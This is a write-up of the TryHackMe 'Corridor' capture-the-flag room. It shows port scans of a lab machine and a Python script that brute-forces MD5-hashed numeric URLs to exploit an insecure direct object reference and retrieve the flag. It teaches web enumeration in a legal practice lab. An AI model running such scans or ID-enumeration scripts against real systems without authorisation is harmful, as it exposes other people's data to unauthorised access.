 ```yaml
---
title: TryHackMe Corridor -- Writeup
date: 2022-10-10
categories: [TryHackMe, Easy]
tags: [idor, mis-config, linux]     # TAG names should always be lowercase
---
```


# Setup 
Always make sure to connect openvpn with the following command:

```bash
sudo openvpn --config <file.ovpn>
```
The next step is exporting the ip address of the machine. This is done by running the following command:

```bash
export ip=10.10.80.228
```

After connecting to vpn, run a ping command to make sure you are connected to the vpn.

```bash
ping -c 4 $ip
```

# Enumeration

I always use rustscan to enumerate the ports (rustscan is faster than nmap)

## Rustscan Output

```bash
rustscan -a $ip

PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack

```

From the output, we can see that port 80 is open. Let's check it out with nmap.

## Nmap

```bash
nmap -sCV -oN nmap/initial $ip

# Nmap 7.92 scan initiated Tue Oct 11 19:44:16 2022 as: nmap -sCV -oN nmap 10.10.80.228
Nmap scan report for 10.10.80.228
Host is up (0.21s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Werkzeug httpd 2.0.3 (Python 3.10.2)
|_http-title: Corridor
|_http-server-header: Werkzeug/2.0.3 Python/3.10.2

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Oct 11 19:45:03 2022 -- 1 IP address (1 host up) scanned in 47.20 seconds

```
As u can see, Werkzeug is running on port 80. Let's check it out.
At first i thought its gonna be werkzeug console vulnerability, but it was not.

Navigating to the website, we got an a pic of doors and nothing else. Viewing the source code reveals something interesting
    
```html
<map name="image-map">
        <area target="" alt="c4ca4238a0b923820dcc509a6f75849b" title="c4ca4238a0b923820dcc509a6f75849b" href="c4ca4238a0b923820dcc509a6f75849b" coords="257,893,258,332,325,351,325,860" shape="poly">
        <area target="" alt="c81e728d9d4c2f636f067f89cc14862c" title="c81e728d9d4c2f636f067f89cc14862c" href="c81e728d9d4c2f636f067f89cc14862c" coords="469,766,503,747,501,405,474,394" shape="poly">
        <area target="" alt="eccbc87e4b5ce2fe28308fd9f2a7baf3" title="eccbc87e4b5ce2fe28308fd9f2a7baf3" href="eccbc87e4b5ce2fe28308fd9f2a7baf3" coords="585,698,598,691,593,429,584,421" shape="poly">
        <area target="" alt="a87ff679a2f3e71d9181a67b7542122c" title="a87ff679a2f3e71d9181a67b7542122c" href="a87ff679a2f3e71d9181a67b7542122c" coords="650,658,644,437,658,652,655,437" shape="poly">
        <area target="" alt="e4da3b7fbbce2345d7772b0674a318d5" title="e4da3b7fbbce2345d7772b0674a318d5" href="e4da3b7fbbce2345d7772b0674a318d5" coords="692,637,690,455,695,628,695,467" shape="poly">
        <area target="" alt="1679091c5a880faf6fb5e6087eb1b2dc" title="1679091c5a880faf6fb5e6087eb1b2dc" href="1679091c5a880faf6fb5e6087eb1b2dc" coords="719,620,719,458,728,471,728,609" shape="poly">
        <area target="" alt="8f14e45fceea167a5a36dedd4bea2543" title="8f14e45fceea167a5a36dedd4bea2543" href="8f14e45fceea167a5a36dedd4bea2543" coords="857,612,933,610,936,456,852,455" shape="poly">
        <area target="" alt="c9f0f895fb98ab9159f51fd0297e236d" title="c9f0f895fb98ab9159f51fd0297e236d" href="c9f0f895fb98ab9159f51fd0297e236d" coords="1475,857,1473,354,1537,335,1541,901" shape="poly">
        <area target="" alt="45c48cce2e2d7fbdea1afc51c7c6ad26" title="45c48cce2e2d7fbdea1afc51c7c6ad26" href="45c48cce2e2d7fbdea1afc51c7c6ad26" coords="1324,766,1300,752,1303,401,1325,397" shape="poly">
        <area target="" alt="d3d9446802a44259755d38e6d163e820" title="d3d9446802a44259755d38e6d163e820" href="d3d9446802a44259755d38e6d163e820" coords="1202,695,1217,704,1222,423,1203,423" shape="poly">
        <area target="" alt="6512bd43d9caa6e02c990b0a82652dca" title="6512bd43d9caa6e02c990b0a82652dca" href="6512bd43d9caa6e02c990b0a82652dca" coords="1154,668,1146,661,1144,442,1157,442" shape="poly">
        <area target="" alt="c20ad4d76fe97759aa27a0c99bff6710" title="c20ad4d76fe97759aa27a0c99bff6710" href="c20ad4d76fe97759aa27a0c99bff6710" coords="1105,628,1116,633,1113,447,1102,447" shape="poly">
        <area target="" alt="c51ce410c124a10e0db5e4b97fc2af39" title="c51ce410c124a10e0db5e4b97fc2af39" href="c51ce410c124a10e0db5e4b97fc2af39" coords="1073,609,1081,620,1082,459,1073,463" shape="poly">
    </map>
```

This hashes looks like md5, so i decided to use burp to look into the request a little more.
My next step was trying to encrypt 'console' with md5sum using the following command

```bash
echo -n "console" | md5sum
```
Navigating the page rusulted in a 404 error (I actually got stuck in here for a while). After reading the challenge description again i realized that most probably the way to get the flag is by generating a wordlist, the convert everything in the wordlist to md5 and then try to navigate to the page. 

# Solve Script

After noticing the flow of the application, i decided to create a script to automate the process of solving the challenge. 

```python

#!/usr/bin/env python3


import urllib.request as req
import hashlib as hs
import re
import logging

logging.basicConfig(format='%(levelname)s: %(message)s', level=logging.DEBUG)

ip, port = "10.10.118.84", 80


for i in range(0, 100):
    logging.info("Solve script by <abuyusif01>")
    logging.info("Trying %d", i)
    hash_value = hs.md5(str.encode(str(i))).hexdigest()
    # print(hash_value) sanity check

    output = req.urlopen(f"http://{ip}:{port}/{hash_value}").read()

    if re.search(b"flag", output):

        flag = (output.split(b"flag{")[1].split(b"}")[0].decode().strip().replace(" ", "")) # some string manipulation magic
        logging.info("flag found at index: %d", i)
        logging.info("flag hash is: %s", flag)
        logging.info("flag with tags: "+"flag{" + flag + "}")
        logging.info("saving flag to a flag.txt file")

        with open("flag.txt", "w") as f:
            f.write("flag{" + flag + "}\n")
            logging.info("flag saved to flag.txt")
        break

```
# Flag

``` txt
flag{2477ef************0a6b8862e}
```

Thanks for reading, and i hope this helps :)